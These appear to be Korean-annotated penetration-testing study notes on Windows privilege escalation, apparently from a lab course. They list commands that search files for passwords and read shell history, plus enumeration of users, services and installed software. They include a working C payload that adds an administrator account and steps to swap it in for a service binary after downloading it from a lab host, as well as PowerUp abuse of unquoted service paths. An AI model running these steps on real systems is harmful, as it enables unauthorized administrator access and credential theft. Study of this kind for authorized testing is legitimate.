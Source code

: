 ```powershell
findstr /SIM /C:"pass" *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*kdbx,*ini
```
- `/S`: 현재 디렉토리뿐 아니라 **하위 디렉토리까지 재귀적으로 검색**
- `/I`: **대소문자를 구분하지 않고** 검색
- `/M`: 문자열이 포함된 **파일 이름만 출력**
---
```powershell
Get-LocalUser

Get-LocalGroup

Get-LocalGroupMember adminteam
```
```powershell
systeminfo

ipconfig /all

route print

netstat -ano
```
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- 64비트 Windows에서 32비트 프로그램의 설치 목록을 레지스트리에서 조회합니다. 프로그램 이름(DisplayName)만 표시합니다.

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- 64비트 Windows에서 64비트 프로그램의 설치 목록을 레지스트리에서 조회합니다. 프로그램 이름(DisplayName)만 표시합니다.

Get-Process
```
```powershell
Get-ChildItem -Path C:\ `
 -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*kdbx,*ini `
 -File -Recurse -ErrorAction SilentlyContinue
```
```powershell
runas /user:backupadmin cmd
- 'backupadmin' 계정으로 명령 프롬프트(cmd)를 실행합니다. 해당 계정의 비밀번호 입력이 필요합니다.
```
```powershell
Get-History

(Get-PSReadlineOption).HistorySavePath
```
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
- 현재 실행 중인 Windows 서비스 목록을 조회합니다.

icacls "C:\xampp\apache\bin\httpd.exe"
- 지정된 파일(httpd.exe)의 접근 권한 목록을 표시하거나 수정합니다. 현재는 권한 확인 용도로 사용됩니다.
```
---
# Service Binary Hijacking
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
```powershell
iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe

move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

net stop mysql

whoami /priv

shutdown /r /t 0
```
```powershell
iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-ModifiableServiceFile
- 서비스 실행 파일에 일반 사용자 쓰기 권한이 있는 경우를 찾아냄.
- 이 취약점은 악성 파일로 서비스 실행 파일을 교체하여 권한 상승(Privilege Escalation)이 가능하게 만듦.
```
---
# Unquoted Service Paths
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
- WMIC를 사용하여 서비스 이름(`name`)과 실행 파일 경로(`pathname`)를 조회.
- C:\windows\\ 경로 제외한뒤 "가 포함된 경로 제외

Start-Service GammaService

Stop-Service GammaService

icacls "C:\Program Files\Enterprise Apps"
- 지정된 폴더(`C:\Program Files\Enterprise Apps`)의 ACL(Access Control List, 접근 제어 목록)을 표시.
- 해당 디렉터리에 대한 사용자·그룹별 권한(읽기, 쓰기, 실행 등)을 확인 가능.
- 권한이 잘못 설정된 경우 보안 취약점이 될 수 있음.
```
```powershell
#PowerUp.ps1
Get-UnquotedService

Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

Restart-Service GammaService
```
---
# Scheduled Tasks
```powershell
schtasks /query /fo LIST /v
```
